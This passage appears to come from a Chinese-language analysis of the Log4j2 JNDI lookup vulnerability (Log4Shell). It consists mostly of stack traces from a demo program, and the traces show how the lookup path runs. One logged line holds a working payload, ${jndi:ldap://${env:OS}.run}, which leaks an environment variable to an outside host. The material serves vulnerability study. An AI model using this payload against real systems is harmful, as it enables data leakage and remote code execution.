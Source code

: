 ```
	at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
	at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:543)
	at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:502)
	at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:485)
	at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:460)
	at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:82)
	at org.apache.logging.log4j.core.Logger.log(Logger.java:161)
	at org.apache.logging.log4j.spi.AbstractLogger.tryLogMessage(AbstractLogger.java:2198)
	at org.apache.logging.log4j.spi.AbstractLogger.logMessageTrackRecursion(AbstractLogger.java:2152)
	at org.apache.logging.log4j.spi.AbstractLogger.logMessageSafely(AbstractLogger.java:2135)
	at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:2028)
	at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:1899)
	at org.apache.logging.log4j.spi.AbstractLogger.info(AbstractLogger.java:1444)
	at com.summersec.log4j2.vuldemo.demo.main(demo.java:20)
16:02:34.590 [main] INFO   - ${jndi:ldap://${env:OS}.run}
```

删除调用之后的结果就是下面的结果，

```
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:223)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1116)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1038)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:467)
	at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:132)
	at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
	at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:345)
	at org.apache.logging.log4j.core.layout.PatternLayout.toText(PatternLayout.java:244)
	at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:229)
	at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:59)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.directEncodeEvent(AbstractOutputStreamAppender.java:197)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.tryAppend(AbstractOutputStreamAppender.java:190)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:181)
	at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppender0(AppenderControl.java:129)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
	at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:543)
	at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:502)
	at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:485)
	at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:460)
	at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:82)
	at org.apache.logging.log4j.core.Logger.log(Logger.java:161)
```

